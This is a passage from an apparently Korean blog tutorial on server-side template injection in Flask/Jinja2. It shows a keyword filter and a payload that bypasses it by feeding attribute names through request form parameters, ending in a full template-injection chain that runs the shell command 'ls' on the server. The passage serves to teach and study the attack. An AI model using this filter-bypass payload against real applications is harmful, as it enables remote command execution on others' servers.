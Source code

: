 필터링을 다음과 같이 추가하고 테스트를 진행하였습니다.

```python
filtering = ["os", "config", "_", "\\x5f","join"]
```

```python
{% raw %}{{""|attr(request.form.get('test'))}}{% endraw %}
```

`request.form.get` 을 사용하여 test 파라미터로 들어오는 값을 attr 필터에 넣어주는 예시입니다. test 파라미터에는 `__class__` 를 추가해주었습니다.

![/assets/2021-05-01/SSTI_15.png](/assets/2021-05-01/SSTI_15.png)

이를 활용하여 앞서 사용했던 공격 코드를 다시 만들어보면 다음과 같습니다.

```python
{% raw %}{{""|attr(request.form.get('test1'))|attr(request.form.get('test2'))|attr(request.form.get('test3'))()|attr(request.form.get('test4'))(273)('ls',shell=True,stdout=-1)|attr('communicate')()|attr(request.form.get('test4'))(0)}}{% endraw %}
```

![/assets/2021-05-01/SSTI_16.png](/assets/2021-05-01/SSTI_16.png)
